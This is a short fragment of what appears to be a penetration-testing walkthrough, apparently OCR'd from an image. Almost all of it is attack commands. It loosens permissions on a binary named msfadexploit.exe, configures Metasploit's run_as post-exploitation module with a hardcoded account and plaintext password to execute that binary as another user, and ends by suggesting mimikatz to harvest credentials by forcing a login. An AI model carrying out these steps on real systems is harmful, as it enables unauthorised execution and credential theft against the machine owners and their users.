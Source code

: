 `icacls msfadexploit.exe /grant Everyone:(F)`

`use post/windows/manage/run_as`
`set CMD C:\\Users\\SecondUser\\msfadexploit.exe`
`set USER LADM`
`set PASSWORD Pm2fUXScqI`
`set SESSION 1`
`set DOMAIN PCCLIENT7`
`exploit`

Then we can use mimikatz for getting credentials by forcing user to login.
***
***